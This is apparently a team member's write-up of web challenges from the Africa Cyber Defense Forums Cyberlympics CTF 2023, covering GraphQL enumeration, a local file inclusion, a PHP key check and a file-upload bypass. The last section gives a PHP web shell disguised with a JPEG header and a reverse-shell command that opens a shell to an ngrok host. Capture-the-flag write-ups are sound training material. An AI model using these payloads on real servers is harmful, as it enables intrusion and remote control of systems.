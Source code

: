 <h1> Final Africa Cyber Defense Forums Cyberlympics CTF 2023 </h1>

Team: RedTeam-TG

Id: Assa

I'll give the solutions to some of the challenges that I solved but you can check the full writeups of the team here:
<br>
https://hackmd.io/@RedTeamTG/acdfctf-final-2023

#### Web
- Grandline
- Image Lookup
- Konoha
- DPO Agba
  
#### Cryptography
- What's going on 

#### Forensics
- Detective Conan 1 

#### Steganography
- Toka 
</details>

<br>
<details><summary>Web :</summary>
  
- Grandline:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/7.png" alt="img"></p>

This is an injection of graphql code, we even have a console which displays the results of the commands

First of all, we are going to do the enumeration in order to see the functions and methods that are accessible. the following payload does the trick:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/1.png" alt="img"></p>

we can notice that we have an interesting function called "flags" with the id, author, content and flag parameters.
Let's try to query the id 1 of the flags function. here I specified the content and flag parameters.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/2.png" alt="img"></p>


We notice that we have a return with the following content: "Why don't you dig harder"; the rest becomes logical we must identify the id which contains our flag. I first tried id 2 then id 3 which turned out to be the right one.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/3.png" alt="img"></p>

Flag: acdfCTF{L3t_try_s0m3_Graph_0ut}


- Image Lookup:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/6.png" alt="img"></p>

This one is an easy lfi web challenge you just had to call the flag file with the following payload: "file:///flag.txt" , paying attention to encoding the characters /
here is the query that I used to get the flag

```http://16.170.230.246/index.php?url=file%3a%2f%2f%2fflag.txt```

Unfortunately the flag is no longer accessible on the server


- Konoha:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/4.png" alt="img"></p>

we have a source.php file. let's try to analyze it:
```python
<?php
$secretFilePath = '/app/Sup3rs3cr3tFlag.txt';

$secretKey = 'Kismet-Abzee-Berrywuxxxxx';

$requestedFile = isset($_GET['file']) ? $_GET['file'] : '';

$providedKey = isset($_GET['key']) ? $_GET['key'] : '';

$decodedFile = urldecode($requestedFile);

if ($providedKey !== $secretKey) {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
    exit;
}

if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
    $secretContent = file_get_contents($secretFilePath);
    echo $secretContent;
} else {
    header("HTTP/1.0 403 Forbidden");
    echo "Access denied!";
}
?>
```
after reading we see that the source.php script gives us the possibility of making GET type requests with the "file" and "key" parameters. key is then the secret code allowing access to the file and file must contain the name of the file. 
```
if ($decodedFile === 'Sup3rs3cr3tFlag.txt') {
     $secretContent = file_get_contents($secretFilePath);
     echo $secretContent;
}
```
the previous lines check that the file name corresponds to Sup3rs3cr3tFlag.txt and displays this secret message to us 
```echo $secretContent;```
what could be simpler we have the name of the file and the key to access it.
be careful in the key value we have hidden characters (5 characters x) 'Kismet-Abzee-Berrywuxxxxx'.
It is therefore necessary to brute force the missing x characters. the hint gave us part of the missing characters, we just had to brute force the rest to obtain the flag.
Ps: apparently the 5 missing characters x could be found in the source code of the application personally I didn't solve it like that.
here is the final request to have the flag:

```http://51.20.91.159/source.php?file=Sup3rs3cr3tFlag.txt&key=Kismet-Abzee-Berrywuzh3r3```

The flag has unfortunately been removed from the server. I unfortunately didn't take a picture when I solved it but the previous request still exact..

- DPO Agba:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/8.png" alt="img"></p>

the images from the web server are no longer accessible I'm going to do a writeup for you a little blindly lol, I would have liked to add more illustrations but hey it doesn't matter, let's go.

The first step was to decode the obfuscated data in the source code. Cyberchef made it possible:

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/9.png" alt="img"></p>

when we analyze the result we can see that we have a way to upload images to the server using the upload.php file. What better way to have a shell!.
Unfortunately when we tried to upload our image, we have restrictions that prevent us from uploading php files or anything other than images and in addition the file size must not exceed more than 35 bytes. Here we need to bypass these restrictions.

We can trick the filter into thinking the .php file I want to upload is actually a .jpeg file. But I had to modify our file's header like this.

our initial payload: ```<?php system($_GET['cmd']); ?>```

but to make that work we have to change the header to that of a .jpeg file. Checking it up online I found this “FF D8 FF EE”. So, let’s change the header to that; hexed.it does the trick.

<p align="center"> <img src="https://github.com/Assa228/Final_ACDF_CTF_2023/blob/main/images/10.png" alt="img"></p>

our final image content should look like this: ```ÿØÿî<?php system($_GET['cmd']); ?>```

Now, that we have successfully changed the header we can upload our file "cmd.php"

after that I just launched a reverse shell on my computer using a TCP connection with an ngrock server. So I was able to have a shell. The next step was to look for the flag on the server. I spent a lot of time looking for the flag before finding it one of the files present on the server. 

Here the payload that I used to get the shell:<br>
```http://16.170.159.222/images/cmd.php?cmd=php+-r+'$sock%3dfsockopen("tcp://4.tcp.ngrok.io",16205)%3bexec("sh+<%263+>%263+2>%263")%3b'```
</details>
